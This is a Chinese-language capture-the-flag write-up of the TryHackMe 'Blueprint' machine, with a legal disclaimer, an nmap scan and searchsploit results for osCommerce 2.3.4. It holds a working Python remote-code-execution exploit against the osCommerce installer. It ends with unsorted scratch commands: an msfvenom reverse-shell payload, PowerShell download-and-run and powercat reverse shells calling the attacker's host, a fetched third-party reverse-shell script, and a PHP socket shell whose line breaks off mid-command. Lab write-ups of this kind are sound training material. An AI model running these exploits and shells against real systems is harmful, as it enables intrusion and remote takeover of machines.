 # 免责声明
>本文渗透的主机经过合法授权。本文使用的工具和方法仅限学习交流使用，请不要将文中使用的工具和渗透思路用于任何非法用途，对此产生的一切后果，本人不承担任何责任，也不对造成的任何误用或损害负责。

# 服务探测
```
┌──(root💀kali)-[~/tryhackme/Blueprint]
└─# nmap -sV -Pn 10.10.251.204    
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-16 03:34 EST
Stats: 0:02:38 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 69.23% done; ETC: 03:37 (0:00:29 remaining)
Nmap scan report for 10.10.251.204
Host is up (0.47s latency).
Not shown: 987 closed ports
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 7.5
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 172.68 seconds

```

可以看到开了3个http服务，一个共享服务以及若干rpc服务

浏览器依次打开80和443端口服务，首页都报错。

8080服务显示有一个叫```oscommerce-2.3.4```的web app，版本是```2.3.4```

在kali搜索这个web app的漏洞情况：
```
┌──(root💀kali)-[~/tryhackme/Blueprint]
└─# searchsploit oscommerce 2.3.4
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
osCommerce 2.3.4 - Multiple Vulnerabilities                                                                                                                                                               | php/webapps/34582.txt
osCommerce 2.3.4.1 - 'currency' SQL Injection                                                                                                                                                             | php/webapps/46328.txt
osCommerce 2.3.4.1 - 'products_id' SQL Injection                                                                                                                                                          | php/webapps/46329.txt
osCommerce 2.3.4.1 - 'reviews_id' SQL Injection                                                                                                                                                           | php/webapps/46330.txt
osCommerce 2.3.4.1 - 'title' Persistent Cross-Site Scripting                                                                                                                                              | php/webapps/49103.txt
osCommerce 2.3.4.1 - Arbitrary File Upload                                                                                                                                                                | php/webapps/43191.py
osCommerce 2.3.4.1 - Remote Code Execution                                                                                                                                                                | php/webapps/44374.py
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

可以说满满都是漏洞，包括sql注入，文件上传，远程代码执行等。

我们把远程代码执行攻击脚本拷贝到本地，经过测试目标系统php禁用了```system```函数，但是```passthru```函数是可以使用的。

我们输入```whoami```

回显为：```nt authority\system ```

nice,直接最高权限。


```
import requests

base_url = "http://10.10.251.204:8080/oscommerce-2.3.4/catalog/"
target_url = "http://10.10.251.204:8080/oscommerce-2.3.4/catalog/install/install.php?step=4"

data = {
    'DIR_FS_DOCUMENT_ROOT': './'
}

payload = '\');'
payload += 'passthru("ping 10.13.21.169");'    # 
payload += '/*'

data['DB_DATABASE'] = payload

r = requests.post(url=target_url, data=data)

if r.status_code == 200:
    print("[+] Successfully launched the exploit. Open the following URL to execute your code\n\n" + base_url + "install/includes/configure.php")
else:
    print("[-] Exploit did not execute as planned")
```




msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.13.21.169 LPORT=4242 -f exe > reverse.exe


powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.13.21.169:8000/reverse.exe','C:\temp\reverse.exe')"

powershell -c "(new-object System.Net.WebClient).DownloadFile('https://www.baidu.com/','C:\temp\reverse.exe')"


powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.13.21.169:8000/powercat.ps1');powercat -c 10.13.21.169 -p 4242 -e cmd"


powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')


php -r '$sock=fsockopen("10.13.21.169",4242);passthru("cmd.exe");